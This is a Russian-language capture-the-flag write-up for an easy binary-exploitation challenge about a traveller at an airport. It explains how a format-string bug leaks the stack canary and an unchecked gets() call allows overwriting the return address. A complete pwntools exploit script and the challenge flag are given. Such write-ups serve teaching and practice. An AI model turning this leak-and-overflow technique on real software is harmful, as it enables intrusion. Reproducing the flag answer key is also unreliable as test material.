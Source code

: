 # Предстоящий полет | easy | pwn

## Информация
> Наш герой - это обычный парень, с обычного города N. Он работает на обычной работе и проживает обычную жизнь и, в целом, не жалуется. Но однажды — кто знает, откуда берутся подобные мысли? — его посетила идея, странная, абсурдная и даже несколько пугающая. "А что, если стать хакером?". Зачем? Почему? Разве подобные вопросы имеют значение? Возможно, это было бегство, вызов, мятеж, — быть может, даже нечто демоническое. Сказано - сделано, парень днями и ночами сидел за книгами и различными видео на всем известной площадке. Цель его была проста и дерзка: улететь в отпуск, не потратив ни копейки. Ни малейшего намёка на законность, ни малейшего страха перед последствиями. Казалось, всё его существо слилось в этой безумной идее. Прошел год, парень поднаторел и решил, что пора. Так он и оказался в аэропорту и начал думать, что же ему делать дальше...


## Выдать участникам
файл [upcoming_flight](public/upcoming_flight)

## Описание
Для решения надо увдиеть уязвимость форматной строки и переполнения буфера.

## Решение
Открываем бинарь, изучаем поведение и все функции. Находим место где выводится флаг.

![alt text](solve/image.png)

**(Функция arrive)**

Изначально **has_ticket = false** Единственное место, где значение это переменной может измениться - это функция **print_ticket()**

![alt text](solve/image-1.png)

Однако в это условие попасть невозможно, значит нужно искать обходные пути

В этой же функции можно найти вызов gets, в нем не контролируется количество введенных символов, а значит получаем переполнение буфера (можем переписать адрес возврата и прыгнуть на **system(“cat flag”)**). 

Проверяем бинарь с помощью утилиты pwn checksec и видим, что канарейка включена, значит ее нужно предварительно ликнуть.

Чуть выше функции gets есть printf(s), но мы контролируем s, поэтому получаем уязвимость форматный строки (можем вывести переменную со стека).

![alt text](solve/image-2.png)

(Уязвимость форматной строки)

![alt text](solve/image-3.png)

(Ликнутая канарейка)

Далее находим нужный отступ и выводим канарейку, затем переполняем буфер и заменяем адрес возврата на нужный нам.

![alt text](solve/image-4.png)

(адрес, с которого начинается вывод флага)

Полное решение:

```python
from pwn import *

s = process("./upcoming_flight")

s.readuntil(b"> ")
s.sendline(b"2")
s.readuntil(b": ")
s.sendline(b"%15$p")
s.readuntil(b": ")

canary = s.readline().strip().decode()

print(f"Canary leak -> {canary}")

s.readuntil(b": ")
s.sendline(b"A" * (40) + p64(int(canary, 16)) + b"A" * 8 + p64(0x401359))

s.interactive()
```
## Флаг
`PolyCTF{W1_w13h_u_A_n1c3_fL1gHt}`

